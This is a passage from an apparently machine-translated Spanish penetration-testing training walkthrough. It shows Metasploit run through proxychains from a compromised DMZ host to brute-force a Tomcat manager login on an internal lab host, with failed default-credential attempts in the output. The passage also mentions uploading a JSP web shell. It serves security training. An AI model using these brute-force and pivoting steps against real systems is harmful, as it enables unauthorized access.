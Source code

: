 Desafortunadamente para nosotros, este es un callejón sin salida.

---

## 172.16.8.50 - Tomcat

Nuestra exploración NMAP anterior mostró el puerto 8080 abierto en este host. Navegar por`http://172.16.8.50:8080`Muestra la última versión de Tomcat 10 instalada. Aunque no hay exploits públicos para ello, podemos intentar que el gerente de Tomcat lo inicie como se muestra en el[Atacando a Tomcat](https://academy.hackthebox.com/module/113/section/1211)Sección de la`Attacking Common Applications`módulo. Podemos iniciar otra instancia de MetaSploit usando proxychains escribiendo`proxychains msfconsole`Para poder girar a través del host DMZ01 comprometido si no tenemos el enrutamiento configurado a través de una sesión de meterpreter. Entonces podemos usar el`auxiliary/scanner/http/tomcat_mgr_login`Módulo para intentar hacer bruto el inicio de sesión.

  Recopilación de información interna

```shell-session
msf6 auxiliary(scanner/http/tomcat_mgr_login) > set rhosts 172.16.8.50
rhosts => 172.16.8.50
msf6 auxiliary(scanner/http/tomcat_mgr_login) > set stop_on_success true
stop_on_success => true
msf6 auxiliary(scanner/http/tomcat_mgr_login) > run
|S-chain|-<>-127.0.0.1:8081-<><>-172.16.8.50:8080-<><>-OK

[!] No active DB -- Credential data will not be saved!
[-] 172.16.8.50:8080 - LOGIN FAILED: admin:admin (Incorrect)
|S-chain|-<>-127.0.0.1:8081-<><>-172.16.8.50:8080-<><>-OK
|S-chain|-<>-127.0.0.1:8081-<><>-172.16.8.50:8080-<><>-OK
|S-chain|-<>-127.0.0.1:8081-<><>-172.16.8.50:8080-<><>-OK
[-] 172.16.8.50:8080 - LOGIN FAILED: admin:manager (Incorrect)
|S-chain|-<>-127.0.0.1:8081-<><>-172.16.8.50:8080-<><>-OK
|S-chain|-<>-127.0.0.1:8081-<><>-172.16.8.50:8080-<><>-OK
|S-chain|-<>-127.0.0.1:8081-<><>-172.16.8.50:8080-<><>-OK
[-] 172.16.8.50:8080 - LOGIN FAILED: admin:role1 (Incorrect)

<SNIP>

|S-chain|-<>-127.0.0.1:8081-<><>-172.16.8.50:8080-<><>-OK
[-] 172.16.8.50:8080 - LOGIN FAILED: tomcat:changethis (Incorrect)
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

No obtenemos un inicio de sesión exitoso, por lo que parece ser un punto muerto y no vale la pena explorar más. Si nos encontramos con una página de inicio de sesión de Tomcat Manager expuesta a Internet, probablemente quisiéramos grabarlo como un hallazgo ya que un atacante podría potencialmente la fuerza bruta y usarla para obtener un punto de apoyo. Durante un interno, solo querríamos informarlo si pudiéramos entrar a través de credenciales débiles y cargar un shell web JSP. De lo contrario, ver en una red interna es normal si está bien bloqueado.

---

## Enumerando 172.16.8.20 - Dotnetnuke (DNN)
